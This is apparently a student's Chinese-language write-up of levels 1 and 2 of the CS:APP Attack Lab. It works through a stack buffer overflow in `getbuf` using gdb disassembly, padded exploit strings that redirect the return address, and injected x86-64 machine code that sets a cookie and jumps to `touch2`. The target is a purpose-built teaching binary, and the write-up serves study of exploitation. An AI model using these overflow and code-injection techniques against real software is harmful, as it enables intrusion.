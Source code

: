 # Attack Lab

## Part I: Code Injection Attacks

### Level 1
level 1 在 `test` 函式內，需要利用 `test` 內呼叫到的 `getbuf` 函式。
因為 `getbuf` 沒有作邊界檢查，可能造成 buffer overflow 的漏洞。
利用此處 buffer overflow 將 `getbuf` 的 return address 改寫成 `touch1` 函式的地址。

- test()
    ```
    (gdb) disass test
    Dump of assembler code for function test:
    0x0000000000401968 <+0>:	sub    $0x8,%rsp
    0x000000000040196c <+4>:	mov    $0x0,%eax
    0x0000000000401971 <+9>:	callq  0x4017a8 <getbuf>
    0x0000000000401976 <+14>:	mov    %eax,%edx
    0x0000000000401978 <+16>:	mov    $0x403188,%esi
    0x000000000040197d <+21>:	mov    $0x1,%edi
    0x0000000000401982 <+26>:	mov    $0x0,%eax
    0x0000000000401987 <+31>:	callq  0x400df0 <__printf_chk@plt>
    0x000000000040198c <+36>:	add    $0x8,%rsp
    0x0000000000401990 <+40>:	retq   
    End of assembler dump.
    ```

- getbuf()
    ```
    (gdb) disass getbuf
    Dump of assembler code for function getbuf:
    0x00000000004017a8 <+0>:	sub    $0x28,%rsp
    0x00000000004017ac <+4>:	mov    %rsp,%rdi
    0x00000000004017af <+7>:	callq  0x401a40 <Gets>
    0x00000000004017b4 <+12>:	mov    $0x1,%eax
    0x00000000004017b9 <+17>:	add    $0x28,%rsp
    0x00000000004017bd <+21>:	retq   
    End of assembler dump.
    ```

觀察進入 `getbuf` 時開出的 buffer 空間為 `0x28` (40byte)。
在輸入字串時在 40 byte 以後的內容以 little-endian 的順序寫入 `touch1` 的地址 (0x00000000004017c0)

- ctarget.l1.txt
    ```
    36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 36 c0 17 40 00 00 00 00 00
    ```

前 40Byte 為任意字串，後面加上 "c0 17 40 00 00 00 00 00" (`touch1` 的地址 - little-endian)

```
./hex2raw < ctarget.l1.txt | ./ctarget -q
```

在 `getbuf` 結束，成功跳轉到 `touch1`

### Level 2
與 level1 類似，需要讓程式執行 `touch2`，但在執行 `touch2` 之前需要將 cookie 寫入傳參 ($rdi) 才能通過。
所以我們可以注入一段程式碼，並且在 `touch2` 之前執行。

- ctargetl2.s
    ```
    pushq   $0x4017ec           # 先將 touch2 地址 push 進 stack
    mov     $0x59b997fa, %rdi   # 將 cookie 寫入 $rdi
    retq                        # return 回 $rsp 內儲存的位址 (touch2)
    ```

- 組譯後再反組譯得到 machine code
    ```
    $ gcc -c ctargetl2.s
    $ objdump -d ctargetl2.o > ctargetl2.d
    ```

- ctargetl2.d
    ```
    ctarget_l2/ctargetl2.o:     file format elf64-x86-64
    Disassembly of section .text:

    0000000000000000 <.text>:
        0:	68 ec 17 40 00       	pushq  $0x4017ec
        5:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi
        c:	c3                   	retq   
    ```


- ctarget.l2.txt
    ```
    68 ec 17 40 00 48 c7 c7 fa 97 b9 59 c3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 78 dc 61 55 00 00 00 00
    ```

    |    |    |    |    |    |    |    |    |
    | -- | -- | -- | -- | -- | -- | -- | -- |
    | 00 | 00 | 00 | 00 | 55 | 61 | dc | 78 | <- $rsp : 0x5561dca0
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | 00 | 00 | 00 | 00 | 00 |
    | 00 | 00 | 00 | c3 | 59 | b9 | 97 | fa |
    | c7 | c7 | 48 | 00 | 40 | 17 | ec | 68 | <- getbuf : 0x5561dc78

    在結束 `getbuf` 後會先跳至 stack 段 (0x5561dc78) 執行注入的程式碼。先是將 `touch2` 地址 push 進 stack，再將 cookie 寫入傳參，最後 return 到 `touch2`。
